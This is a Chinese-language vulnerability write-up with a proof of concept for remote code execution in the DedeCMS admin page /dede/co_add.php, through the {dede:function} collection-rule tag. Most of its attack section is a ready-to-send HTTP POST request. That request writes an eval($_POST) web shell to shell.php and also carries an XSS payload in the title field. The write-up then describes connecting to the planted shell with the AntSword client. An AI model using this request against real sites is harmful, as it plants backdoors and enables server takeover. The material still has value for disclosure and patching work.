










RCE远程命令执行

路由地址： /dede/co_add.php 

可控变量：$itemconfig

$itemconfig 字符串中拼接了 {dede:function}...{/dede:function} 这类标签，内容来自用户输入的 $GLOBALS["function_".$field]；

登录页面

分析代码

代码解释：循环step=5的步骤中，$itemconfig = "{dede:sppage sptype=\\'$sptype\\' sptype=\\'$sptype\\' srul=\\'$srul\\' erul=\\'$erul\\'}$sppage{/dede:sppage}\r\n";  $itemconfig是生成采集规则配置字符串，其中{dede:function}...{/dede:function}是一个内置标签，官方文档和源码中都说明这个标签会 执行其中的 PHP 代码，用来在采集时调用函数或写自定义代码，采集模块调用 dedecollection.class.php 解析这段配置

require_once(DEDEINC.'/dedecollection.class.php');

 

抓取数据包，为POST提交方式，提交数据

 

修改POST数据

 

查看页面，phpifo()执行成功

 

尝试进行编写一句话木马上传

 

Poc：

POST /dede/co_add.php HTTP/1.1

Host: zm.cms

Content-Length: 1120

Cache-Control: max-age=0

Origin: http://zm.cms

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://zm.cms/dede/co_add.php

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: PHPSESSID=r8633an1fkb7tsj85v21gn8ta4; _csrf_name_f1c32558=d94a3f92e0b389a1374a3ec3e854c0aa; _csrf_name_f1c325581BH21ANI1AGD297L1FF21LN02BGE1DNG=adee44dff7cea4ca; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4ab7784072cbcbf3; DedeLoginTime=1752456596; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=35ff91f756cca48d; ENV_GOBACK_URL=%2Fdede%2Fco_url.php%3Fnid%3D3%26small%3D1

Connection: close

 

nid=3&channelid=1&step=5&previewurl=http%3A%2F%2Fwww.example.com&sppage=&sptype=full&srul=1&erul=5&keywordtrim=&descriptiontrim=&fields%5B%5D=title&value_title=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&match_title=%3Ctitle%3E.*%3C%2Ftitle%3E&trim_title=&function_title=&fields%5B%5D=writer&value_writer=%E6%B5%8B%E8%AF%95%E4%BD%9C%E8%80%85&match_writer=%3Cmeta+name%3D%22author%22+content%3D%22.*%22%2F%3E&trim_writer=&function_writer=&fields%5B%5D=source&value_source=%E6%BA%90%E6%96%87%E7%AB%A0&match_source=%3Cmeta+name%3D%22source%22+content%3D%22.*%22%2F%3E&trim_source=&function_source=&fields%5B%5D=pubdate&value_pubdate=2025-07-14&match_pubdate=%3Ctime%3E.*%3C%2Ftime%3E&trim_pubdate=&function_pubdate=%40me%3DGetMkTime%28%40me%29%3B&fields%5B%5D=body&value_body=%E6%AD%A4%E6%98%AF%E4%B8%80%E6%AE%B5%E6%B5%8B%E8%AF%95%E6%AD%A3%E6%96%87&match_body=%3Cdiv+id%3D%22article-content%22%3E.*%3C%2Fdiv%3E&trim_body=&function_body=file_put_contents%28%27shell.php%27%2C%27%3C%3Fphp%20eval%28%24_POST%5Bx%5D%29%3B%3F%3E%27%29&isunit_body=1&isdown_body=1&b12=%E4%BF%9D%E5%AD%98%E9%85%8D%E7%BD%AE%E5%B9%B6%E9%A2%84%E8%A7%88

 

在页面发现shell.php编写成功

 

尝试蚁剑链接：

 

 

 
